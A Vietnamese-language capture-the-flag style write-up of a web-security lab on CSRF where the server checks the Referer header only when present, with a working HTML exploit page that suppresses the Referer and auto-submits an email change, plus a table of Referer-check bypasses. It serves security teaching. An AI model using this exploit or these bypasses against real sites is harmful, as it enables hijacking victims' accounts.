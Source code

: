 ### Lab: CSRF where Referer validation depends on header being present
#### Analysis
- Một số ứng dụng kiểm tra **header Referer** để xác định xem yêu cầu có đến từ trang cùng **domain** hay không. Nếu có, yêu cầu được chấp nhận; nếu không, bị từ chối.
- Tính huống dễ bị khai thác khi ứng dụng bảo vệ như sau:
```python
if 'Referer' in request.headers:
    if not request.headers['Referer'].startswith("https://vulnerable-website.com"):
        block_request()
# Nhưng nếu không có header => skip kiểm tra
```

#### Exploit
- Thử thay đổi email với việc thay đổi giá trị của **header Referer**
```http
POST /my-account/change-email HTTP/2
Host: 0aee0014032fd3cc80840385007a004a.web-security-academy.net
...
Referer: https://0aee0014032fd3cc80840385007a004a.web-security-academy.net.com/my-account?id=wiener
...
email=a%40gmail.com
```
- Ta nhận được response: `"Invalid referer header"`
- Thử bỏ **header Referer** => Thành công `change-email`
- Tạo mã khai thác, loại bỏ **header Referer**
```html
    <!DOCTYPE html>
    <html>
    <head>
    <meta name="referrer" content="never">
    </head>
    <body>
    <form action="https://0aee0014032fd3cc80840385007a004a.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="evil@gmail.com">
        <input type="submit" value="Submit">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
    </html>
```
- Thêm vào body của **Exploit Server** 
- Deliver to victim

### CSRF with broken Referer validation

| Kỹ thuật kiểm tra Referer sơ sài | Cách bypass                                           |
| -------------------------------- | ----------------------------------------------------- |
| `startsWith("...")`              | Dùng subdomain giống prefix                           |
| `includes("...")`                | Dùng query string hoặc path chứa domain               |
| Trình duyệt strip query string   | Dùng `Referrer-Policy: unsafe-url` để buộc gửi đủ URL |
